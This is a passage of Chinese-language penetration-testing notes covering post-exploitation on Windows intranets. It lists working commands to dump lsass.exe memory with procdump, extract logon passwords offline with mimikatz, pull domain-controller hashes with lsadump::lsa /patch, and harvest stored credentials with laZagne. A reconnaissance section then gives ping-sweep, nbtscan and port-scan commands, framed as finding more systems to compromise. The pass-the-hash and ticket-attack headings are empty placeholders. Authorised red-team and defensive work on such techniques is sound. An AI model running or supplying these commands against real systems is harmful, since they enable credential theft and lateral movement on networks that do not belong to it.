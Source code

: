 #### 离线获取账户密码

当mimikatz无法在主机上运行时，可以使用微软官方发布的工具Procdump导出lsass.exe：

`procdump64.exe -accepteula -ma lsass.exe lsass.dmp`

将lsass.dmp下载到本地后，然后执行mimikatz：

`mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit`

#### 读取域控中域成员Hash

在域控上执行mimikatz：

```
#提升权限
privilege::debug

抓取密码
lsadump::lsa /patch
```



#### 哈希传递攻击

待补充



#### 黄金/白银票据攻击

待补充



### laZagne.exe

启动所有模块获取各类密码：`laZagne.exe all`



## 0x04 内网探测

当搜集完信息之后，你将对自己搜集到的内网网段地址进行存活探测和端口扫描，通过漏洞来渗透更多系统，扩大自己的战果。

在进行内网探测时，你可以将工具直接上传到主机上，也可以通过代理工具，在自己主机上进行扫描。

### 存活探测

存活探测可以使用ICMP协议、NetBios协议快速探测。

`for /L %P in (1,1,254) DO @ping ‐w 1 ‐n 1 192.168.1.%P | findstr "TTL ="`

`nbtscan.exe192.168.191.2-250`

### 端口扫描

推荐使用s扫描器，对常见的一些高危端口进行扫描。

`s.exe 172.31.81.1-254 445,8080,8081,8089,9090,8888,9999,9080 tcp`

















